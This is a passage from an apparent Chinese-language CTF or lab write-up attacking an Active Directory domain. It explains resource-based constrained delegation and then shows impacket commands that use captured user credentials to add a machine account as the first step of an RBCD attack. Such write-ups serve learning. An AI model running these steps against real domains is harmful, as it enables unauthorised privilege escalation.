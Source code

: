 然后开始分析

![img](img/image_20240703-170354.png)

## 172.22.15.35 RBCD

:::info RBCD

RBCD 在 Windows 2012 才引入，08 是没有这个概念的

RBCD 和传统的约束委派的区别就是，约束是在资源服务器上进行配置的，传统的约束委派中，资源服务器只能被动的接受委派，是否能够委派到资源服务器由委派服务器进行控制

RBCD 可以通过 msDS-AllowedToActOnBehalfOfOtherIdentity 属性来控制委派服务器是否能够委派任意用户来访问自己

:::

添加 hosts 记录

```bash
┌──(root ㉿ kali)-[~]
└─# echo "172.22.15.35 XR-0687.xiaorang.lab" >> /etc/hosts
```

添加机器账户

```bash
┌──(randark ㉿ kali)-[~]
└─$ proxychains -q impacket-addcomputer xiaorang.lab/lixiuying:'winniethepooh' -dc-ip 172.22.15.13 -dc-host xiaorang.lab -computer-name 'randark$' -computer-pass 'admin123###'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Successfully added machine account randark$ with password admin123###.
```
